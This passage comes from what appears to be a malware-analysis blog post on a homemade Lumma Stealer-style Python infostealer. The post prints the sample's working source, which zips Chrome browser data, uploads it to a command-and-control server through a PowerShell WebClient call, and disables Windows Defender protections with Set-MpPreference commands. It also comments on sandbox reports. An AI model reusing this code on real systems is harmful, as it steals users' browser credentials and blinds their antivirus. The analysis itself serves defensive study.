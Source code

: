 ```
                continue
            files_to_zip.append(os.path.join(root, file))
    with zipfile.ZipFile(ZIP_PATH, 'w', zipfile.ZIP_DEFLATED) as zipf:
        for file in files_to_zip:
            zipf.write(file, os.path.relpath(file, chrome_path))
    time.sleep(5)
    return True
def exfiltrate():
    powershell_command = f'\n    $filePath = "{ZIP_PATH}";\n    $url = "{C2_SERVER}";\n    $wc = New-Object System.Net.WebClient;\n    $wc.UploadFile($url, $filePath);\n    '
    time.sleep(3)
    subprocess.run(['powershell', '-ExecutionPolicy', 'Bypass', '-Command', powershell_command], shell=True)
    subprocess.run(['powershell', "echo Oh, Dutch... He's a rat"], check=True)
disable_defender()
establish_persistence()
if zip_browser_data():
    exfiltrate()
```

Lucky for us ARTHUR don't like spaghetti and wrote a clean code. There are four functions corresponding to four stages of the attack, which we will go through one by one.

Here is the [report](https://www.hybrid-analysis.com/sample/2a90c14a30e0f54824c26cf3d50688a217ef476c2cdd4f402c5762e4cae61022/67b5c03403f48def080c0f91) for dynamic analysis on `hybrid-analysis.com`. What I find odd about that report is there is no network activity nor the zip file created, that is a good reason to not rely completely on automated dynamic malware analysis. 

![](/assets/images/posts/2025-02-21-Homemade_Lumma Stealer/09.png)

Another [report](https://app.any.run/tasks/6aba0ec8-3c36-4cd9-8355-ceb0b1c6cfe8) from `any.run`. Note that there is no created zip files nor dns requests made to the malicious domain

![](/assets/images/posts/2025-02-21-Homemade_Lumma Stealer/10.png)

## Defence Evasion 

We have this function:
```
def disable_defender():
    """Disables Windows Defender protections."""
    try:
        commands = ['Set-MpPreference -DisableRealtimeMonitoring $true', 'Set-MpPreference -DisableBehaviorMonitoring $true', 'Set-MpPreference -DisableBlockAtFirstSeen $true', 'Set-MpPreference -DisableIOAVProtection $true', 'Set-MpPreference -DisablePrivacyMode $true', 'Set-MpPreference -MAPSReporting 0', 'Set-MpPreference -SubmitSamplesConsent 2', 'Set-MpPreference -DisableIntrusionPreventionSystem $true', 'Set-MpPreference -DisableScriptScanning $true']
        for cmd in commands:
            subprocess.run(['powershell', '-Command', cmd], shell=True, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
            time.sleep(2)
        subprocess.run(['powershell', 'echo Does this go to Tahiti?'], check=True)
    except:
        return None
```

